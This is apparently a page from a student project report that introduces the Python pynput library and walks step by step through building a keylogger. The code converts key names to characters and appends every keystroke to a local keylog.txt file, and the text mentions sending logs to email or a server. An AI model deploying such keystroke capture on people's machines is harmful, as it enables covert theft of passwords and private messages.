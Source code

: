 It contains subpackages for each type of input device supported:
pynput.mouse
Contains classes for controlling and monitoring a mouse or trackpad.
pynput.keyboard
Contains classes for controlling and monitoring the keyboard.
All modules mentioned above are automatically imported into the pynput package. To use any of them, import them from the main package:
from pynput import mouse, keyboard















Chapter Two

Implementation and Deployment of the keylogger using Pynput

The keystroke logger otherwise referred to as the Keylogger to be implemented is the software type for the purpose of this project.
A keylogger program’s basic functionality is to monitor keystrokes continuously and then deliver those keystrokes to a specific location that can be either an email, server, or stored locally in the system.

How To Create a Keylogger In Python
Step 1: To create our keylogger, we will use a Python library named pynput. This Python library lets you fully control and monitor keyboard and mouse inputs. The library supports mouse and keyboard input devices and has the following sub-packages:
•	pynput.mouse – This package includes all the classes to control and monitor a mouse or trackpad.
•	pynput.keyboard – This package contains all the classes to work with the keyboard.
Install the pynput library using the  pip install pynput command.
Step 2: Now that we have installed the required Python library, let’s import all the required packages and define the instance that will contain the strings

from pynput.keyboard import Listener
def write_to_file(key):
    letter = str(key)
    letter = letter.replace("'", "")

    if letter == 'Key.space':
        letter = ' '
    if letter == 'Key.shift_r':
        letter = ''
    if letter == "Key.ctrl_l":
        letter = ""
    if letter == "Key.enter":
        letter = "\n"

Step 3: This step will specify the path to storing the log file. This log file will include all the monitored keystrokes in the format specified.
with open("keylog.txt", 'a') as f:
        f.write(letter)
